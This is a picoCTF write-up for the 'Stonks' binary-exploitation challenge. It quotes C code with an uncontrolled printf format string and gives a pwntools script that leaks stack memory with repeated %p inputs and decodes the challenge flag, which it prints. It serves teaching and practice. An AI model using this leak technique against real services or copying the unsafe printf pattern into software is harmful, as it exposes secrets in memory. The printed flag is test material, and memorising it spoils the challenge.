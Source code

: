 ```yaml
---
layout: post
title: "picoCTF: Stonks"
tags: picoCTF writeup binary-exploitation
---
```


## [Info](#info)

Problem link - [picoCTF: Stonks](https://play.picoctf.org/practice/challenge/105)

## [Solution](#solution)


A vulnerable C code is provided. It is also running on a server which can be connected using `nc mercury.picoctf.net 20195`. Instead of pasting the whole code, here is the vulnerable part - 

```c
// All we see is FLAAAGG
#define FLAG_BUFFER 128

// Ommited code 
int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	
	.
	.
	.
	.
	
	// TODO: Figure out how to read token from file, for now just ask
	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);  // <----- Vulnerable part

	// TODO: Actually use key to interact with API
	view_portfolio(p);
	return 0;
}
```

Glancing at the last `printf` in the above code can reveal that we can do `string format attack`.
```c
printf(user_buf);
```

Let's check if it is possible or not by passing string format, for e.g. %p - 
```shell
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p
Buying stonks with token:
0x8636410
Portfolio as of Wed Mar  9 14:12:50 UTC 2022


1 shares of EM
2 shares of JO
15 shares of JIU
24 shares of YEZZ
9 shares of IDFO
86 shares of XT
179 shares of L
1237 shares of WWCQ
397 shares of JYUF
Goodbye!

```
So, it is working. `%p` is giving up the value from stack frame.


Now we can pass multiple `%p` to get as much as we can from the stack frame. The variable `user_buf` is where our flag is kept. 
Here is the result after entering `"%p." * 100`(dot for separation) -
```
0x9085410.0x804b000.0x80489c3.0xf7eedd80.0xffffffff.0x1.0x9083160.0xf7efb110.0xf7eeddc7.(nil).0x9084180.0x1.0x90853f0.0x9085410.0x6f636970.0x7b465443.0x306c5f49.0x345f7435.0x6d5f6c6c.0x306d5f79.0x5f79336e.0x35343036.0x64303664.0xffa7007d.0xf7f28af8.0xf7efb440.0xf6b4b900.0x1.(nil).0xf7d8ace9.0xf7efc0c0.0xf7eed5c0.0xf7eed000.0xffa78928.0xf7d7b68d.0xf7eed5c0.0x8048eca.0xffa78934.(nil).0xf7f0ff09.0x804b000.0xf7eed000.0xf7eede20.0xffa78968.0xf7f15d50.0xf7eee890.0xf6b4b900.0xf7eed000.0x804b000.0xffa78968.0x8048c86.0x9083160.0xffa78954.0xffa78968.0x8048be9.0xf7eed3fc.(nil).0xffa78a1c.0xffa78a14.0x1.0x1.0x9083160.0xf6b4b900.0xffa78980.(nil).(nil).0xf7d30fa1.0xf7eed000.0xf7eed000.(nil).0xf7d30fa1.0x1.0xffa78a14.0xffa78a1c.0xffa789a4.0x1.(nil).0xf7eed000.0xf7f1070a.0xf7f28000.(nil).0xf7eed000.(nil).(nil).0xb2f522cd.0x5bf8e4dd.(nil).(nil).(nil).0x1.0x8048630.(nil).0xf7f15d50.0xf7f10960.0x804b000.0x1.0x8048630.(nil).0x8048662.0x8048b85.
```

Let's convert this hex value to ASCII and see if there is something interesting - 

```python
output = "0x9085410.0x804b000.0x80489c3.0xf7eedd80.0xffffffff.0x1.0x9083160.0xf7efb110.0xf7eeddc7.(nil).0x9084180.0x1.0x90853f0.0x9085410.0x6f636970.0x7b465443.0x306c5f49.0x345f7435.0x6d5f6c6c.0x306d5f79.0x5f79336e.0x35343036.0x64303664.0xffa7007d.0xf7f28af8.0xf7efb440.0xf6b4b900.0x1.(nil).0xf7d8ace9.0xf7efc0c0.0xf7eed5c0.0xf7eed000.0xffa78928.0xf7d7b68d.0xf7eed5c0.0x8048eca.0xffa78934.(nil).0xf7f0ff09.0x804b000.0xf7eed000.0xf7eede20.0xffa78968.0xf7f15d50.0xf7eee890.0xf6b4b900.0xf7eed000.0x804b000.0xffa78968.0x8048c86.0x9083160.0xffa78954.0xffa78968.0x8048be9.0xf7eed3fc.(nil).0xffa78a1c.0xffa78a14.0x1.0x1.0x9083160.0xf6b4b900.0xffa78980.(nil).(nil).0xf7d30fa1.0xf7eed000.0xf7eed000.(nil).0xf7d30fa1.0x1.0xffa78a14.0xffa78a1c.0xffa789a4.0x1.(nil).0xf7eed000.0xf7f1070a.0xf7f28000.(nil).0xf7eed000.(nil).(nil).0xb2f522cd.0x5bf8e4dd.(nil).(nil).(nil).0x1.0x8048630.(nil).0xf7f15d50.0xf7f10960.0x804b000.0x1.0x8048630.(nil).0x8048662.0x8048b85.".split(".")

from binascii import unhexlify as uh

for i in output:
	if (i.startswith("0x") and len(i)==10):
		print(uh(i[2:].strip()))
```

Here is the output - 
```
b'\xf7\xee\xdd\x80'
b'\xff\xff\xff\xff'
b'\xf7\xef\xb1\x10'
b'\xf7\xee\xdd\xc7'
b'ocip'
b'{FTC'
b'0l_I'
b'4_t5'
b'm_ll'
b'0m_y'
b'_y3n'
b'5406'
b'd06d'
b'\xff\xa7\x00}'
b'\xf7\xf2\x8a\xf8'
b'\xf7\xef\xb4@'
b'\xf6\xb4\xb9\x00'
b'\xf7\xd8\xac\xe9'
b'\xf7\xef\xc0\xc0'
b'\xf7\xee\xd5\xc0'
.
.
.
```

On line 5, you can spot `pico` in reverse. Followed by `CTF{` in reverse as well. 

Let's write final code to get the flag - 

```python
######################
# Get data from server
######################
from pwn import *

conn = remote("mercury.picoctf.net", 20195)
conn.recvuntil(b'View my portfolio')
conn.send(b'1\n')

conn.recvuntil(b'What is your API token?\n')

conn.send(b'%p###'*100 + b'\n')

# Useless line(Buying stonks with token:) 
# Recieve and discard
conn.recvline()

# Our output 
output = conn.recvline().decode("utf-8").split("###")


print('\n'*3)
print(output)
print('\n'*3)

# Close connection
conn.close()


###########################
# Find flag from the output
###########################

from binascii import unhexlify as uh

flag = ""

for i in output:
	if (i.startswith("0x")):
		try: 
			unhexed = uh((i[2:].strip()))[::-1]
			flag += (unhexed).decode("utf-8")
		except:
			pass
print(flag)
```

PS > The output doesn't have the closing curly braces. (some bug which I didn't want to fix out of laziness)


## [Flag](#flag)

Here is the flag - 
```
picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}
```
